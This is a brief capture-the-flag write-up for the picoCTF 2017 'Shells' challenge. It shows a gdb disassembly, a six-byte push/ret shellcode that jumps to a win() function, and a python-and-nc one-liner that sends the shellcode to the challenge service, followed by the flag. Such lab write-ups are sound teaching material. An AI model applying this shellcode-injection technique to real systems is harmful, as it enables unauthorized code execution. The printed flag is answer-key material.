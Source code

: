 ## Shells - 70

### Description

How much can a couple bytes do? Use shells! Source. Connect on shell2017.picoctf.com:40976.

### Hint

  - Read about basic shellcode
  - You don't need a full shell (yet...), just enough to get the flag

### Write up

    (gdb) disas win
    Dump of assembler code for function win:
       0x08048540 <+0>:     push   %ebp
       ...

win() is at 0x08048540.

    push 0x08048540
    ret

This will be our payload

You can asemble it in this [site](https://defuse.ca/online-x86-assembler.htm#disassembly).

    0:  68 40 85 04 08          push   0x8048540
    5:  c3                      ret

Used python to insert payload.

    $ python -c 'print "\x68\x40\x85\x04\x08\xc3"' | nc localhost 40976

> cd875b6ffb5cdd3319532d52ceca71aa
